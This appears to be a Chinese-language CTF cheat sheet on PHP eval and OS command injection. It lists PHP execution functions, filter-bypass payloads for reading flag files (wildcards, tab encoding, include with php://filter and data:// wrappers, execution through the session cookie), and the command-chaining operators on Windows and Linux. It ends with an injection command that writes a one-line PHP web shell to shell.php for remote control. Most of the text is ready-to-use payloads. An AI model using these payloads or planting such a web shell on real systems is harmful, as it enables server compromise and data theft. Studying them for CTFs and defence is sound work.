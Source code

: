 
**用eval执行Linux命令**

## eval执行（注意需加分号）

注入方式例如:/?cmd=system('ls')

request = post + get

- system()

	对某些指令进行执行的函数，比如：ls、cat、whoami、ifconfig等指令

- passthru()

	与system用法基本一致，在system函数被过滤后考虑使用

- exec()

  不回显，一般使用管道符`| tee（覆盖文件）或 | tee -a（追加文件）或  >`导入文件中访问 

- shell_exec() 

- popen() 

- proc_open() 

- pcntl_exec()

- 反引号

- var_dump(\`nl%20/f???\`);

- printf(\`c\at+/fffffffffflagafag`);

用find命令找flag文件
```
find / -name flag.txt
```

**常用payload**

```
echo `nl flag.php`；

system()

passthru()

echo`strings%09f*`;

param=`$_GET[1]`;&1=bash
```

**配合文件包含**

```
用文件包含include()，include可以无括号包含，分号`;`可以用`?>`代替，与前面形成闭合，这样就可以做到参数逃逸

c=include%09$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include%09$_GET[a]?>&a=data://,<?php eval(system('cat flag.php'));?>

传参时不能用双引号
```

## PHP短标签

```
<?=$a?>
<?=(表达式)?> 
就相当于 
<?php echo $a?> 
<?php echo (表达式)?>

(注意：这种写法在php配置中默认关闭了的,如果要正常输出，需要配置php.ini文件。在配置文件中找到asp_tags=off ,将off改为on。改动配置文件后需要重启apache。)
```

**通过cookie命令执行**

```
c=session_start();system(session_id());
passid=ls
```

##### Windows系统支持的管道符如下：

1. “|”：直接执行后面的语句。
2. “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
3. “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
4. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真
5. /

##### Linux系统支持的管道符如下：

1. “;”：执行完前面的语句再执行后面的语句。
2. “|”：显示后面语句的执行结果。
3. “||”：当前面的语句执行出错时，执行后面的语句。
4. “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
5. “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行
6. /

#### 思路一：直接通过管道符拼接，使用命令查看flag

#### 思路二：通过重定向，向服务器注入一句话木马，获得shell,再用蚁剑连接
```
127.0.0.1&echo -e "<?php @eval($_POST['shell']);?>" > shell.php
```
